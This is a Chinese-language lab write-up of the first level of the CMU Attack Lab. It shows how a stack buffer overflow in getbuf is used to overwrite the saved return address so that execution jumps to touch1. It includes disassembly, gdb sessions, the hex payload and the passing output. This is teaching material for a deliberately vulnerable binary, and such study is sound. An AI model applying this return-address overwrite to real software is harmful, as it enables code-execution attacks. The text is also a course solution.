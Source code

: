 # 要求

要求就是使用缓冲区溢出的漏洞，进行 code injection(CI) 攻击。

我们使用 objdump 来生成完整的 ctarget 反汇编代码
```shell
objdump -d ctarget > ctarget.asm
```

## 重要文件说明


- `exploit1.txt` 为我们输入的注入代码。需要使用 hex2raw 转换为机器字节顺序
- `ctarget` 是 code injection 执行文件

## 解题过程

![image](https://user-images.githubusercontent.com/9459488/147568993-812832c1-1a92-480b-b810-73415024105f.png)


其核心在于，当 P 调用 call Q 指令时，会把 P 的下一条指令地址压栈。当 Q 执行完 ret 时，会取刚刚压入的地址，作为 rip(PC) 指向的地址。

所以该题的核心就是替换掉 P 指令地址为 Q。

即：使用 touch1 函数开始的指令地址替换 test 函数中 getbuf 的下一条指令地址。

```shell
# 执行 ctarget，不连接服务器
r -q

# 打断点
b test
b getbuf

# 显示汇编视图
layout asm
```


以下是关键函数的摘抄

**test**
```nasm
0x401968 <test>         sub    $0x8,%rsp
0x40196c <test+4>       mov    $0x0,%eax
0x401971 <test+9>       callq  0x4017a8 <getbuf>
0x401976 <test+14>      mov    %eax,%edx
0x401978 <test+16>      mov    $0x403188,%esi # x/s $rsi 输出 "No exploit.  Getbuf returned 0x%x\n"
0x40197d <test+21>      mov    $0x1,%edi
0x401982 <test+26>      mov    $0x0,%eax
0x401987 <test+31>      callq  0x400df0 <__printf_chk@plt>
0x40198c <test+36>      add    $0x8,%rsp
0x401990 <test+40>      retq
```

**getbuf**
```nasm
0x4017a8 <getbuf>       sub    $0x28,%rsp
0x4017ac <getbuf+4>     mov    %rsp,%rdi
0x4017af <getbuf+7>     callq  0x401a40 <Gets>
0x4017b4 <getbuf+12>    mov    $0x1,%eax
0x4017b9 <getbuf+17>    add    $0x28,%rsp
0x4017bd <getbuf+21>    retq
0x4017be                nop
0x4017bf                nop
0x4017c0 <touch1>       sub    $0x8,%rsp
0x4017c4 <touch1+4>     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
0x4017ce <touch1+14>    mov    $0x4030c5,%edi
0x4017d3 <touch1+19>    callq  0x400cc0 <puts@plt>
0x4017d8 <touch1+24>    mov    $0x1,%edi
0x4017dd <touch1+29>    callq  0x401c8d <validate>
0x4017e2 <touch1+34>    mov    $0x0,%edi
0x4017e7 <touch1+39>    callq  0x400e40 <exit@plt>
```

getbuf 的 backtrace 信息，我们看到 `saved rip = 0x401976`，这里 `0x401976` 指向的是 test 函数中，call getbuf 的下一条指令地址。

__同时，也是我们期望覆盖的指令地址（我们希望用 touch1 的指令地址 `0x4017c0` 覆盖原来 test 的指令地址 `0x401976`）。__

我们看到 getbuf 开始就开辟了 0x28 的函数栈帧( getbuf's stack frame )。
而上一个函数过程 test 的栈帧的最后一部分，是放着返回地址的。

![image](https://user-images.githubusercontent.com/9459488/147568993-812832c1-1a92-480b-b810-73415024105f.png)

所以我们填充完 getbuf 开辟的地址，把 touch1 的写入到 “返回地址” 里即可。


```nasm
0x4017a8 <getbuf>       sub    $0x28,%rsp
0x4017ac <getbuf+4>     mov    %rsp,%rdi
0x4017af <getbuf+7>     callq  0x401a40 <Gets>
0x4017b4 <getbuf+12>    mov    $0x1,%eax
0x4017b9 <getbuf+17>    add    $0x28,%rsp
0x4017bd <getbuf+21>    retq
```


## 验证

```shell
➜  target1 git:(main) ✗ ./hex2raw < exploit1.txt > raw1.txt


➜  target1 git:(main) ✗ ./ctarget -q -i raw1.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA C0 17 40 00 00 00 00 00
```



## 附录

使用 backtrace 来跟踪函数栈

break _IO_getc@plt ()
```text
(gdb) backtrace
#0  0x0000000000400dc0 in _IO_getc@plt ()
#1  0x0000000000401a73 in Gets (dest=dest@entry=0x5561dc78 "") at support.c:169
#2  0x00000000004017b4 in getbuf () at buf.c:14
#3  0x0000000000401976 in test () at visible.c:92
#4  0x0000000000401f24 in launch (offset=<optimized out>) at support.c:295
#5  0x0000000000401ffa in stable_launch (offset=<optimized out>) at support.c:340
Backtrace stopped: Cannot access memory at address 0x55686000


#0  0x0000000000400dc0 in _IO_getc@plt ()
(gdb) select-frame 0
(gdb) i f
Stack level 0, frame at 0x5561dc58:
 rip = 0x400dc0 in _IO_getc@plt; saved rip = 0x401a73
 called by frame at 0x5561dc78
 Arglist at 0x5561dc48, args:
 Locals at 0x5561dc48, Previous frame's sp is 0x5561dc58
 Saved registers:
  rip at 0x5561dc50


#1  0x0000000000401a73 in Gets (dest=dest@entry=0x5561dc78 "") at support.c:169 
(gdb) select-frame 1
(gdb) i f
Stack level 1, frame at 0x5561dc78:
 rip = 0x401a73 in Gets (support.c:169); saved rip = 0x4017b4
 called by frame at 0x5561dca8, caller of frame at 0x5561dc58
 source language c.
 Arglist at 0x5561dc50, args: dest=dest@entry=0x5561dc78 ""
 Locals at 0x5561dc50, Previous frame's sp is 0x5561dc78
 Saved registers:
  rbx at 0x5561dc58, rbp at 0x5561dc60, r12 at 0x5561dc68, rip at 0x5561dc70


#2  0x00000000004017b4 in getbuf () at buf.c:14
(gdb) select-frame 2
(gdb) i f
Stack level 2, frame at 0x5561dca8:
 rip = 0x4017b4 in getbuf (buf.c:14); saved rip = 0x401976
 called by frame at 0x5561dcb8, caller of frame at 0x5561dc78
 source language c.
 Arglist at 0x5561dc70, args:
 Locals at 0x5561dc70, Previous frame's sp is 0x5561dca8
 Saved registers:
  rip at 0x5561dca0


#3  0x0000000000401976 in test () at visible.c:92
(gdb) select-frame 3
(gdb) i f
Stack level 3, frame at 0x5561dcb8:
 rip = 0x401976 in test (visible.c:92); saved rip = 0x401f24
 called by frame at 0x55685ff8, caller of frame at 0x5561dca8
 source language c.
 Arglist at 0x5561dca0, args:
 Locals at 0x5561dca0, Previous frame's sp is 0x5561dcb8
 Saved registers:
  rip at 0x5561dcb0
(gdb)
```

回归到内存分布上，我们知道代码段在低位，栈在高位。结合本示例，得到

- 0x401976 类似的是 rip(pc指针) 指向的位置，即代码位置
- 0x5561dca8 类似的高位地址表示的是栈位置，即 rsp 指向的位置
  > rbx rbp r12~r15 是被调用者保存 callee saved 寄存器
